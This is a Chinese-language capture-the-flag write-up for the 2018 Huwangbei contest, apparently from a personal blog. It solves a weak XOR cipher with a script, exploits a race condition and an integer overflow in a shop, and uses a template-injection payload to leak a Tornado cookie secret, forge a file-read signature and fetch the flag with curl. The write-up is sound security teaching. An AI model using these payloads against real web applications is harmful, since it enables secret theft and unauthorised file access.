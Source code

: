 ```yaml
---
title: 护网杯解题记录
date: 2018-10-14 00:17:37
---
```


![1539436751699](1539436751699.png)
# FEZ

```python
import os
def xor(a,b):
    assert len(a)==len(b)
    c=""
    for i in range(len(a)):
        c+=chr(ord(a[i])^ord(b[i]))
    return c
def f(x,k):
    return xor(xor(x,k),7)
def round(M,K):
    L=M[0:27]
    R=M[27:54]
    new_l=R
    new_r=xor(xor(R,L),K)
    return new_l+new_r
def fez(m,K):
    for i in K:
        m=round(m,i)
    return m

K=[]
for i in range(7):
    K.append(os.urandom(27))
m=open("flag","rb").read()
assert len(m)<54
m+=os.urandom(54-len(m))

test=os.urandom(54)
print test.encode("hex")
print fez(test,K).encode("hex")
print fez(m,K).encode("hex")
```

假设最后一轮结束后高低字节分别为l,r，可逐轮逆推出上一轮的值，从而得到明文和密文的关系。由已知的一组test明文密文对，可得到flag的明文。

| round | left                         | right                 |
| ----- | ---------------------------- | --------------------- |
| 0     | l^r^k[0]^k[1]^k[3]^k[4]^k[6] | l^k[1]^k[2]^k[4]^k[5] |
| 1     | l^k[1]^k[2]^k[4]^k[5]        | r^k[2]^k[3]^k[5]^k[6] |
| 2     | r^k[2]^k[3]^k[5]^k[6]        | l^r*k[3]^k[4]^k[6]    |
| 3     | l^r*k[3]^k[4]^k[6]           | l^k[4]^k[5]           |
| 4     | l^k[4]^k[5]                  | r^k[5]^k[6]           |
| 5     | r^k[5]^k[6]                  | r^l^k[6]              |
| 6     | r^l^k[6]                     | l                     |
| 7     | l                            | r                     |

```python
# -*- coding: utf-8 -*-
# __author__ = findneo

def xor(a,b):
    assert len(a)==len(b)
    c=""
    for i in range(len(a)):
        c+=chr(ord(a[i])^ord(b[i]))
    return c
all_xor = lambda x:reduce(xor,x)
test_plain="c8b84d08e5a8e60a49578f387fff5a90e9e7c181734bf05be4f5403c9ea24a0b8741a329991637e11fa69019cd3b01d7c95b65f5abd5"
test_cipher="5c3660c27cb9b3785a5ce06022e88bc831017e882d39475ea85d919ad9e5ac498f86c553216cab1f8f7468353d46ba8971efa9ca8c81"
flag_cipher="519ab6fc0e435da00516b844f8fe664bfe9445992f478dc650701739a11ffda5bbeb643159d7e8cd03a2104c798a1ca734b905ee6c76"

p=test_plain.decode("hex")
c=test_cipher.decode("hex")
f=flag_cipher.decode("hex")

l,r=c[0:27],c[27:54]
pl,pr=p[0:27],p[27:54]
fl,fr=f[0:27],f[27:54]
fcl=all_xor([l,r,pl,fl,fr])
fcr=all_xor([l,pr,fl])
flag=fcl+fcr
print flag
#flag{festel_weak_666_plo88112tty}�{v�N;	K�X
```

# LTSHOP

使用burp的intruder竞争买大辣条，得到超过五个大辣条。

![1539428933786](1539428933786.png)

然后买 `2**64/5+1` 个辣条王，使得需要付的大辣条多到uint装不下，向上溢出为负数，我们就买得起很多的辣条王了，实现一夜暴富。

![1539429086591](1539429086591.png)

然后flag就随便买了。

![1539429113491](1539429113491.png)

![1539437436657](1539437436657.png)

# easy_tornado

有三个提示：

```html
http://49.4.78.9:31465/file?filename=flag.txt&signature=95660d430a8ad05fc7337d12e6a08b1a
render()
md5(cookie_secret + md5(filename))
/fllllllllllag
```

报错页面存在SSTI。

```html
访问 `http://49.4.78.9:31465/error?msg={{handler.settings}}`得到配置信息。
Whoops, looks like somethings went wrong . 
{'login_url': '/login', 'template_path': 'templates', 'xsrf_cookies': True, 'cookie_secret': 'pGD*~9Y]N?>5zBvS_3768U+O}<#^k@oM$grqZQ4!yK1ucVnijmRJlFwI%hP(0exE', 'debug': False, 'file_path': '/www/static/files', 'static_path': 'static'}
```

得到cookie_secret，即可构造签名读取flag。

```bash
abc@xyz:~$ curl "http://49.4.78.9:31465/file?filename=/fllllllllllag&signature=8f270fa794962fa2ec4e63e6b03a830b" -s | grep flag
flag{59a95928373bfa789e06635d2d5e9459}
```

参考：https://www.cnblogs.com/bwangel23/p/4858870.html 

# 更多题解

- [护网杯2018线上赛 Writeup by Whitzard](https://xz.aliyun.com/t/2893) 
- [2018护网杯线上赛 Writeup by 天枢](https://xz.aliyun.com/t/2897) 
- [2018护网杯线上赛题解by Lilac](https://xz.aliyun.com/t/2892) 
- [护网杯-easy laravel-Writeup](http://www.venenof.com/index.php/archives/565/) 
- [2018护网杯-web-writeup](http://skysec.top/2018/10/13/2018%E6%8A%A4%E7%BD%91%E6%9D%AF-web-writeup/) 